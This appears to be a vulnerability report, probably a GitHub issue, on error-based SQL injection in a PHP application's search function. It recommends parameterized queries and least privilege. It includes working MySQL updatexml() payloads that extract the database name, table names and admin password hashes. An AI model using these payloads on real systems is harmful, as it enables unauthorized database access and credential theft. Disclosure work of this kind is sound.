 # Impact:

Attackers can enumerate tables:

a' AND updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),0x7e),1) AND '1'='1

Extract sensitive data (e.g., usernames, hashed passwords from admin table):

a' AND updatexml(1,concat(0x7e,(SELECT Apass FROM admin LIMIT 0,1),0x7e),1) AND '1'='1

Severity: High (CVSS 7.5) because it allows full database compromise.

Expected behavior:
The application should use parameterized queries (prepared statements) to handle user input securely, preventing any SQL code injection.

Bug Fix Recommendation:
Implement prepared statements in PHP using mysqli or PDO.

Use input validation and escaping.

Apply least privilege principle on the database user.

References:

CWE-89: SQL Injection

OWASP SQL Injection Prevention Cheat Sheet

Additional context:
Using blacklist-based filtering is not reliable. Attackers can bypass such filters easily by using encoding tricks, inline comments, or alternate syntax.


We can identify SQL injection by adding a single quote to the search.

<img width="1388" height="684" alt="image" src="https://github.com/user-attachments/assets/1a96003b-e14f-4b81-9ab9-55cec3bda1ec" />

We can see that when making an SQL query, it is not shown in the query response.

<img width="1318" height="705" alt="image" src="https://github.com/user-attachments/assets/e7b92457-4912-4004-9a13-20940ab0e74d" />

- updatexml()
updatexml() is a MySQL function used to update an XML document.
When the syntax is incorrect (for example, we used unexpected data), it returns an error containing the string we passed.

- Payload database:
a' AND updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) AND '1'='1


- Payload table 1:
a' AND updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),0x7e),1) AND '1'='1

<img width="1332" height="691" alt="image" src="https://github.com/user-attachments/assets/6c090e3a-ac3f-482e-9f80-4d4b1cbb976f" />
